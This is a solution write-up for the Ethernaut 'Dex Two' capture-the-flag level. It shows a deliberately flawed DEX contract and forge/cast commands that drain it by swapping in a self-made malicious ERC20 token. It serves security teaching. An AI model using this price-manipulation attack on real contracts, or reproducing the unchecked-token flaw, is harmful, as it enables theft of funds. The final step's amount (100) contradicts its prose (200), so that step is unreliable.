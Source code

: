 ## Dex Level Outline

**Difficulty : 4/10**

This level will ask you to break DexTwo, a subtlely modified Dex contract from the previous level, in a different way.

You need to drain all balances of token1 and token2 from the DexTwo contract to succeed in this level.

You will still start with 10 tokens of token1 and 10 of token2. The DEX contract still starts with 100 of each token.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import '@openzeppelin/contracts/math/SafeMath.sol';

contract DexTwo  {
  using SafeMath for uint;
  address public token1;
  address public token2;
  constructor(address _token1, address _token2) public {
    token1 = _token1;
    token2 = _token2;
  }

  function swap(address from, address to, uint amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swap_amount = get_swap_amount(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swap_amount);
    IERC20(to).transferFrom(address(this), msg.sender, swap_amount);
  }

  function add_liquidity(address token_address, uint amount) public{
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }

  function get_swap_amount(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableTokenTwo(token1).approve(spender, amount);
    SwappableTokenTwo(token2).approve(spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableTokenTwo is ERC20 {
  constructor(string memory name, string memory symbol, uint initialSupply) public ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0xd2BA82c4777a8d619144d32a2314ee620BC9E09c)

## Solution

The price is calculated based on the ratio of tokenA and tokenB. If we createa a malicious ERC20 token and add liquidity to the contract, we can control the exchange rate and drain all tokens.

### Walkthrough

1. create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "openzeppelin-contracts/contracts/token/ERC20/ERC20.sol";

contract MaliciousToken is ERC20 {
    constructor() ERC20("MaliciousToken", "MALTKN") {
        _mint(msg.sender, 1000000);
    }
}
```

2. deploy our new contract
```console
forge create src/Contract.sol:MaliciousToken --private-key  $PRIVATE_KEY
```

3. approve the Dex contract to spend our tokens. We need to do this to add liquidity
```console
cast send $DEPLOYED_ADDRESS "approve(address,uint256)" $LEVEL_ADDRESS 200 --private-key=$PRIVATE_KEY 
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract

4. send 100 of our `MALTKN` to the dex so that the price ratio between `token1` and `MALTKN` is 1:1
```console
cast send $LEVEL_ADDRESS "add_liquidity(address,uint)" $DEPLOYED_ADDRESS 100 --gas 150000 \ 
--private-key $PRIVATE_KEY
```


5. let's get the addresses for `token1` and `token2`
 
```console
cast call $LEVEL_ADDRESS "token1()"

cast call $LEVEL_ADDRESS "token2()"
```

6. now that the exchange rate is 1:1, let's send swap 100 of our malicious token to `token1` to drain the dex's supply of `token1`.
 
```console
cast send $LEVEL_ADDRESS "swap(address,address,uint)" $DEPLOYED_ADDRESS $TOKEN1_ADDRESS 100 --gas 250000 \
--private-key $PRIVATE_KEY
```

7. now the total supply of `MALTKN` in the contract is 200, meaning that the ratio between `MALTKN` and `token2` will be 0.5:1 
 
to drain the supply of `token2` we need to swap 200 `MALTKN` for `token2`
```console
cast send $LEVEL_ADDRESS "swap(address,address,uint)" $DEPLOYED_ADDRESS $TOKEN2_ADDRESS 100 --gas 250000 \
--private-key $PRIVATE_KEY
```
